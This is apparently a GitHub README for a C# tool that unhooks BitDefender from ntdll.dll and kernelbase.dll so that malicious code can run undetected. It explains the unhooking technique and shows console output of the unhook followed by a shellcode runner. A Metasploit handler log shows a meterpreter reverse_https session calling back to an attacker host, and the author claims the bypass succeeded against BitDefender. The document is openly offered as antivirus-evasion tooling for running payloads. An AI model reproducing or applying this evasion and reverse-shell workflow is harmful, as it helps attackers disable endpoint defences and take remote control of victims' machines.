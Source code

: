 # Unhook BitDefender
A C# application that unhooks **BitDefender** from **ntdll.dll** and **kernelbase.dll** to help run malicious code undetected.

The code is quite long (particularly the native Win32 structs), and I'm sure it could be optimised.

# Introduction
This C# code is based upon one of the techniques demonstrated in the RED TEAM Operator: Windows Evasion Course from [Sektor7](https://institute.sektor7.net), the original is written in C/C++. I would recommend any of the malware development courses, there is a lot of great stuff to learn about creating malware in C/C++.

When Windows creates a new process BitDefender injects the **atcuf64.dll** DLL into the process and hooks many of the **ntdll.dll/kernelbase.dll** functions. If, for example, `NtCreateProcess` is called by malicious code BitDefender is able to intercept the call, do it's anti-malware magic, then return execution to the thread (or kill the process if it is malicious).

The code maps another version of a DLL in memory, finds the `.text` section, and copies it over the hoooked version.

The code has been updated so you can map and unhook any DLL in memory.

# Proof of Concept in x64dbg

The following image shows the `ZwCreateProcess` function when BitDefender is not present:

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/NoBitDef.png?raw=true)


The following image shows the `ZwCreateProcess` function when Bit Defender has hooked into **ntdll.dll**. We can see the `jmp` instruction (this is the hook):

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/BitDefHooks.png?raw=true)


And finally, this image shows the `ZwCreateProcess` function after being unhooked (the `jmp` instruction has been reverted back to the normal syscall):

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/BitDefUnhooked.png?raw=true)


# Example
 
Execution of the code is shown below:

```
[+] Mapping Ntdll...
[+] Unhooking Ntdll...
[+] Original Dll address is 0x7FFE23450000
[+] Mapped Dll address is 0x2396A520000
[+] Mapped Dll is a valid image.
[+] e_lfanew equals 0xE8
[+] NT_HEADERS address is 0x2396A5200E8
[+] Mapped Dll NT Headers is valid.
[+] Sections to enumerate is 10
[+] First section is .text
[+] First section is at 0x2396A5201F0
[+] Analysing section .text
[+] .text section is at 0x2396A5201F0
[+] VirtualProtect Dll to PAGE_EXECUTE_READWRITE...
[+] Unhooking Dll by copying mapped data...
[+] VirtualProtect Dll to PAGE_EXECUTE_WRITECOPY...
[+] Unmapping view of Dll...

[+] Mapping Kernelbase...
[+] Unhooking Kernelbase...
[+] Original Dll address is 0x7FFE20CB0000
[+] Mapped Dll address is 0x2396A520000
[+] Mapped Dll is a valid image.
[+] e_lfanew equals 0xF0
[+] NT_HEADERS address is 0x2396A5200F0
[+] Mapped Dll NT Headers is valid.
[+] Sections to enumerate is 7
[+] First section is .text
[+] First section is at 0x2396A5201F8
[+] Analysing section .text
[+] .text section is at 0x2396A5201F8
[+] VirtualProtect Dll to PAGE_EXECUTE_READWRITE...
[+] Unhooking Dll by copying mapped data...
[+] VirtualProtect Dll to PAGE_EXECUTE_WRITECOPY...
[+] Unmapping view of Dll...

[+] Shellcode runner...
[+] Decrypting payload...
[+] VirtualAlloc...
[+] RtlMoveMemory...
[+] VirtualProtect (PAGE_NOACCESS)...
[+] Sleeping...
[+] VirtualProtect (PAGE_EXECUTE_READ)...
[+] ResumeThread...
```

And the magical meterpreter session:

```
msf6 exploit(multi/handler) >
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: dqyy0qcu) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:59384) at 2021-10-11 08:21:51 +010
```

# Notes
~~I haven't tested the code with anything malicious yet to see if it bypasses BitDefender. I will post my findings when I do.~~

~~I tested this against Bit Defender with a very basic `Virtualalloc`, `RtlMoveMemory`, `VirtualProtect`, `CreateThread` classic combo (with an encrypted payload). Bit Defender didn't detect anything malicious on disk (with scanning) but did kill the process when `CreateThread` was called.~~

The code was updated to unhook any loaded DLL. Unhooking **ntdll.dll** and **kernelbase.dll** bypasses BitDefender in my tests.

Tested with windows/x64/meterpreter/reverse_https on Windows 10 Pro (build 10.0.19043) with BitDefender AntiVirus Free Edition.
